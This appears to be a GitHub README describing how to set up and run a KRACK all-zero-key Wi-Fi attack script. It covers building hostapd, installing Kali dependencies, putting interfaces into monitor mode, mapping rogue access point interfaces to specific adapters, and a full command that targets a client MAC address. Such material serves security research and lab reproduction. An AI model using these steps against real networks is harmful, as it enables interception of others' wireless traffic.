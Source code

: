 This script is currently not actively supported. The documentation is also not complete.

Before running this script, you must compile hostapd. This only needs to be done once:

	  cd ../hostapd
	  cp defconfig .config
	  make -j 2
	  cd ../
	  ./build.sh

Then you can exece this script. See [our video](https://youtu.be/Oh4WURZoR98?t=47) for example commands.

## Prerequisties
intall the following dependencies on Kali Linux:
 ```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev macchanger pkg-config libssl-dev net-tools git sysfsutils pip tcpdump
```
install the following python package:
```
pip install --user mitm_channel_based
pip install scapy==2.4.3
pip install pycryptodome
```

set the nic_rogue_ap, nic_rogue_mon interface to monitor
```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode Monitor
sudo ifconfig wlan0 up
```

## Description
```
KRAckAttack(args.nic_real_mon, args.nic_rogue_ap, args.nic_rogue_mon, args.ssid, args.target, args.dump, args.continuous_csa)
```
- nic_real_mon: nic_real, nic_real_clientack
- nic_rogue_ap: nic_rogue_ap
- nic_rogue_mon: nic_rogue_mon

krack-all-zero-tk.py KRAckAttack class confiure_interfaces()
define wifi interfaces !
1. iw <nic_real> set type monitor
2. <nic_real_clientack> = <nic_real> + sta1
3. iw <nic_real> interface add <nic_real_clientack> type managed

4. (沒特別指定的話) <nic_rogue_mon> = <nic_rogue_ap> + mon
5. iw <nic_rogue_ap> interface add <nic_rogue_mon> type monitor
6. iw <nic_rogue_mon> set type monitor

- nic_real_mon : MERCUSYS MW300UM
- nic_rogue_ap : TP-Link TL-WN722N V2
- nic_rogue_mon: TP-Link AC600

```
python3 ./krack-all-zero-tk.py <nic_real_mon> <nic_rogue_ap> testnetwork --nic-rogue-mon <nic_rogue_mon> --target 60:45:cb:01:ce:4c
```